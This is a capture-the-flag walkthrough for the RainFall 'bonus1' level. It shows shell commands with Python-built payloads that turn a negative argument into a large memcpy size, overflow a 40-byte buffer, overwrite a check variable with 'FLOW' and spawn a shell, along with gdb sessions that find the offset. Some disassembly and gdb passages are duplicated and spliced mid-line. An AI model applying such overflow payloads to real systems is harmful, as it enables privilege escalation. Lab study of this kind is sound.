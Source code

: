 BONUS_1:
# 📚 Exploiting bonus1
```bash
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c 'print "A"*56 + "\x82\x84\x04\x08"')
$ whoami
bonus2
$ exit
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ exit
bonus1@RainFall:~$ ./bonus1 -2147483637 `python -c "print 'a' * 40 + '\x46''\x4c''\x4f''\x57'"`
$ whoami
bonus2
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "B"*40 + "FLOW"')
$ exit
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "B"*40 + "FLOW"')
$ exit
```


so 9 (the max number that we can try with it) is not enough for overflow.

- We know that memcpy uses size_t (unsigned_int), so we can try with a negative number because it will be interpreted as a positive number whatever happens. So if we exceed the limit of the unsigned_int max we will back to 0.

MAX of unsigned_int = 4294967295

4294967295 / 4 + 1 = 1073741824

- We will break at memcpy and examine our variable.

(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
(gdb) r -1073741824 AAAAAAAAAAAA
Starting program: /home/user/bonus1/bonus1 -1073741824 AAAAAAAAAAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) x/x $esp+0x8
0xbffff278:	0x00000000

- So now we have 0 as a value. now we will try to set 100 as a value.

1073741824 - 25 = 1073741799

(gdb) r -1073741799 AAAAAAAAAAAA
Starting program: /home/user/bonus1/bonus1 -1073741799 AAAAAAAAAAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) x/x $esp+0x8
0xbffff278:	0x00000064 // = 100

- Now we need to find the offset which we can overflow. for that, we will set a breakpoint after memcpy and examine our value.

Starting program: /home/user/bonus1/bonus1 -1073741799 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 2, 0x08048478 in main ()
(gdb) x/x $esp+0x3c
0xbffff25c:	0x62413362

- And we found that offset is 40. so now we need just to write this value (0x574f4c46) after the 40 chars.

40 + 4 = 44 / 4 = 11
1073741824 - 11 = 1073741813

nb = (L/4) - 2^30 

From the disassembly

At 0x0804842a: sub $0x40, %esp → reserves 64 bytes local space.

At 0x0804843d: mov %eax, 0x3c(%esp) → nb is stored at [esp+0x3c].

At 0x08048464: lea 0x14(%esp), %eax → buffer starts at [esp+0x14].

So:

esp+0x14 → buffer[0]
...
esp+0x3b → buffer[39]
esp+0x3c → nb (the integer)


That means nb sits right after 40 bytes of buffer. Classic overflow pattern.

📍 In gdb: how to see them

You already set a breakpoint at 0x08048478 (just after memcpy).
Now you can inspect:

(gdb) run -1073741813 $(python -c "print 'B'*40 + 'FLOW'")


When it stops at breakpoint:

See esp

(gdb) From the disassembly

At 0x0804842a: sub $0x40, %esp → reserves 64 bytes local space.

At 0x0804843d: mov %eax, 0x3c(%esp) → nb is stored at [esp+0x3c].

At 0x08048464: lea 0x14(%esp), %eax → buffer starts at [esp+0x14].

So:

esp+0x14 → buffer[0]
...
esp+0x3b → buffer[39]
esp+0x3c → nb (the integer)


That means nb sits right after 40 bytes of buffer. Classic overflow pattern.

📍 In gdb: how to see them

You already set a breakpoint at 0x08048478 (just after memcpy).
Now you can inspect:

(gdb) run -1073741813 $(python -c "print 'B'*40 + 'FLOW'")


When it stops at breakpoint:

See esp

(gdb) p/x $esp ==> $1 = 0xbffff6b0


Dump buffer region

(gdb) x/48bx $esp+0x14


This shows the 40 Bs followed by "FLOW", because memcpy just copied nb*4 bytes from argv[2] into buffer.

See nb (the integer)

(gdb) x/wx $esp+0x3c


Compare addresses

(gdb) p/x $esp+0x14       # buffer start
(gdb) p/x $esp+0x3c       # nb location
(gdb) p/d ($esp+0x3c) - ($esp+0x14)


You should see a difference of 0x28 = 40 bytes.
That’s exactly why "B"*40 + "FLOW" overwrites nb.


Dump buffer region

(gdb) x/48bx $esp+0x14


This shows the 40 Bs followed by "FLOW", because memcpy just copied nb*4 bytes from argv[2] into buffer.

See nb (the integer)

(gdb) x/wx $esp+0x3c


Compare addresses

(gdb) p/x $esp+0x14       # buffer start
(gdb) p/x $esp+0x3c       # nb location
(gdb) p/d ($esp+0x3c) - ($esp+0x14)


You should see a difference of 0x28 = 40 bytes.
That’s exactly why "B"*40 + "FLOW" overwrites nb.
